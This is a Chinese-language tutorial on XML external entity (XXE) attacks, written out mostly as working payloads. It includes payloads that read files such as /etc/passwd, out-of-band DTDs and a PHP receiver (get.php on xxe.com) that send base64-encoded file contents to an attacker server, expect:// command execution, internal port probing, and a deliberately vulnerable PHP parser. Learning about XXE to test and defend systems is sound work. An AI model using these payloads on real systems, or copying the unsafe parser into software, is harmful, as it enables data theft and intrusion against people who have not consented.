




# 1.XML基础

XXE的话需要先简单了解下XML和DTD等，

XML技术基础在这里将不在详细写，可以通过如下几个链接去学习XML基础：

-   https://www.xml.com/axml/axml.html
-   http://www.w3school.com.cn/xml/index.asp
-   https://www.ibm.com/developerworks/cn/xml/x-newxml/


XML实体分为四种：字符实体，命名实体，外部实体，参数实体

**1、命名实体写法：**

```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c://test/1.txt" >]>        
<value>&xxe;</value>

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://otherhost/xxxx.php" >]>        
<value>&xxe;</value>
```

可以用做xxe+ssrf
**2、命名实体+外部实体写法：**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [
<!ENTITY dtd SYSTEM "http://localhost:88/evil.xml">
]> 
<value>&dtd;</value>
```

这种命名实体调用外部实体，发现evil.xml中不能定义实体，否则解析不了，感觉命名实体好鸡肋，参数实体就好用很多
**3、第一种命名实体+外部实体+参数实体写法：**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml"> 
%dtd; %all; 
]> 
<value>&send;</value>
```

其中evil.xml文件内容为

```xml-dtd
 <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
```

调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用命名实体send

**第二种命名实体+外部实体+参数实体写法：**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml">
%dtd;
%send;
]>
<root></root>
```

其中evil.xml文件内容为：

```xml-dtd
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost:88/?content=%file;'>"> %payload;
```

调用过程和第一种方法类似

# 2.XXE攻击

准备的有xxe漏洞的文件

```php
<?php
$xml=file_get_contents("php://input");
$data = simplexml_load_string($xml) ;
echo "<pre>" ;
print_r($data) ;//注释掉该语句即为无回显的情况
?>
```

xxe利用主要有：任意文件读取、内网信息探测（包括端口和相关web指纹识别）、DOS攻击、远程命名执行
POC主要有：

```
file:///path/to/file.ext
http://url/file.ext
php://filter/read=convert.base64-encode/resource=conf.php
```

不同程序支持的协议不同



## 1.任意文件读取

### 1.有回显

可以看上面的（1命名实体写法）



### 2.无回显

可以看`3、第一种命名实体+外部实体+参数实体写法`和`第二种命名实体+外部实体+参数实体写法`

**第一种写法**



其中1.TXT存放了flagqwerwe 字符串，可以在日志文件中看到。

如果把http://localhost/asdf.xml替换为一个自己远程服务器的xml文件地址，即可在日志中看到我们想要获取的数据

**第二种写法**



## 3

在主机上放一个接收文件的php(get.php):

```php
<?php

file_put_contents('01.txt', $_GET['xxe_local']);

?>
```

1.xml内容：

```xml
<!ENTITY % payload	SYSTEM	 "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxe.com/get.php?xxe_local=%payload;'>">
%int;
%trick;
```

这个XML，他引用了外部实体etc/passwd作为payload的值，然后又将payload拼接到[http://xxe.com/get.php?xxe_local=%payload;，进行HTTP请求。](http://xxe.com/get.php?xxe_local=%payload;%EF%BC%8C%E8%BF%9B%E8%A1%8CHTTP%E8%AF%B7%E6%B1%82%E3%80%82)

接收到请求的get.php就将这个文件内容保存到01.txt了，形成了一个文件读取的过程。

发包过去后，就会请求1.xml，解析这个xml造成XXE攻击，读取etc/passwd并进行base64编码后传给get.php，最后保存到主机上


## **踩过的坑**

1.任意读取txt文件正常，读取php文件报错。因为php文件本身包含<等字符，利用php://filter的base64编码绕过
`php://filter/read=convert.base64-encode/resource=http://localhost/exponent/index.php`
2.第二种命名实体+外部实体+参数实体写法 中的evil.xml文件
对

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```

错

```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```

最里层的嵌套里必须为字符实体
3.形参实体（就是带%的）只能在dtd（<!DOCTYPE ANY[]）里面调用,其他实体要用'&'开头，';'结尾
4.不明白为什么无回显的情况下一定要三层实体嵌套才正确，二层嵌套就不对（evil.xml中直接写成`<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>`或是`<!ENTITY send SYSTEM 'http://localhost/?content=%file;'>`）


-----------

## XXE 危害

-   读取任意文件
-   执行系统命令
-   探查内网端口
-   攻击内网网站

### 读取任意文件

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

### 执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```


### 探测内网端口

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

### 攻击内网网站

结合其他的漏洞比如：struts2

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>
<root>
<name>&xxe;</name>
</root>
```